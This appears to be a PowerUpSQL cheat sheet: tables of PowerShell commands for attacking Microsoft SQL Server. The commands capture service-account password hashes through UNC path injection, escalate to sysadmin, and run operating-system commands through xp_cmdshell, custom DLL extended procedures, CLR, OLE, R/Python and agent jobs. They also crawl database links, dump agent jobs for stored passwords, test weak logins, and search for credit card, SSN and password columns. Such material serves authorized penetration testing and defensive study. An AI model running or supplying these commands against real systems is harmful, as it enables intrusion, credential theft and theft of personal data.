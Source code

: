 | Description | Command |
| :--- | :--- |
| Domain User to SQL Service Account. While running as a domain user this function will automatically do 4 things. 1. Identify SQL Servers on the domain via a LDAP query to a DC for SPNs. 2. Attempt to log into each. 3. Perform UNC path injection using various methods. 4. Attempt to capture the password hashes for the associated SQL Server service account. | `Invoke-SQLUncPathInjection -Verbose -CaptureIp 10.1.1.12` |
| OS admin to sysadmin via service account impersonation, then all PowerUpSQL commands can be run as a sysadmin. | `Invoke-SQLImpersonateService -Verbose -Instance MSSQLSRV04\BOSCHSQL` |
| Audit for Issues | `Invoke-SQLAudit -Verbose -Instance SQLServer1` |
| Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1` |
| Execute OS commands: xp\_cmdshell | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10` |
| Execute OS commands: Custom xp | `Create-SQLFileXpDll -OutFile c:\temp\test.dll -Command "echo test > c:\temp\test.txt" -ExportName xp_test -Verbose` Host the test.dll on a share readable by the SQL Server service account. `Get-SQLQuery -Verbose -Query "sp_addextendedproc 'xp_test', '\\yourserver\yourshare\myxp.dll'"` `xp_test` `sp_dropextendedproc 'xp_test'` |
| Execute OS commands: CLR | `$Targets | Invoke-SQLOSCLR -Verbose -Command "Whoami"` |
| Execute OS commands: Ole Automation Procedures | `$Targets | Invoke-SQLOSOle -Verbose -Command "Whoami"` |
| Execute OS commands: External Scripting - R | `$Targets | Invoke-SQLOSR -Verbose -Command "Whoami"` |
| Execute OS commands: External Scripting - Python | `$Targets | Invoke-SQLOSPython -Verbose -Command "Whoami"` |
| Execute OS commands: Agent Job - CmdExec | `$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem CmdExec -Command "echo hello > c:\windows\temp\test1.txt"` |
| Execute OS commands: Agent Job - PowerShell | `$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem PowerShell -Command 'write-output "hello world" | out-file c:\windows\temp\test2.txt' -Sleep 20` |
| Execute OS commands: Agent Job - VBScript | `$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem VBScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt'` |
| Execute OS commands: Agent Job - JScript | `$Targets | Invoke-SQLOSCmdAgentJob -Verbose -SubSystem JScript -Command 'c:\windows\system32\cmd.exe /c echo hello > c:\windows\temp\test3.txt'` |
| Crawl database links | `Get-SqlServerLinkCrawl -Verbose -Instance SQLSERVER1\Instance1` |
| Crawl database links and execute query | `Get-SqlServerLinkCrawl -Verbose -Instance SQLSERVER1\Instance1 -Query "select name from master..sysdatabases"` Blog: [https://blog.netspi.com/sql-server-link-crawling-powerupsql/](https://blog.netspi.com/sql-server-link-crawling-powerupsql/) |
| Crawl database links and execute OS command | `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"` |
| Dump contents of Agent jobs. Often contain passwords. Verbose output includes job summary data. | `$Results = Get-SQLAgentJob -Verbose -Instance Server1\Instance1 -Username sa -Password 'P@ssword!'` or `$Results = Get-SQLInstanceDomain -Verbose | Get-SQLAgentJob -Verbose -Username sa -Password 'P@ssword!'` `$Results | Out-GridView` |
| Enumerate all SQL Logins as least privilege user and test username as password. | Run against single server `Invoke-SQLAuditWeakLoginPw -Verbose -Instance SQLServer1\Instance1` Run against domain SQL Servers `$WeakPasswords = Get-SQLInstanceDomain -Verbose | Invoke-SQLAuditWeakLoginPw -Verbose` `$WeakPasswords` |

### SQL Server Data Targeting Cheats

| Description | Command |
| :--- | :--- |
| Dump an inventory of common objects to csv in the current directory. | `Invoke-SQLDumpInfo -Verbose -Instance server1\instance1` |
| Execute arbitrary query | `$Targets | Get-SQLQuery -Verbose -Query "Select @@version"` |
| Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose` |
| Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults` |
| Dump common information from server to files | `Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv` |
| Find sensitive data based on column name | `$Targets | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults` |
| Find sensitive data based on column name, but only target databases with transparent encryption | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults` |
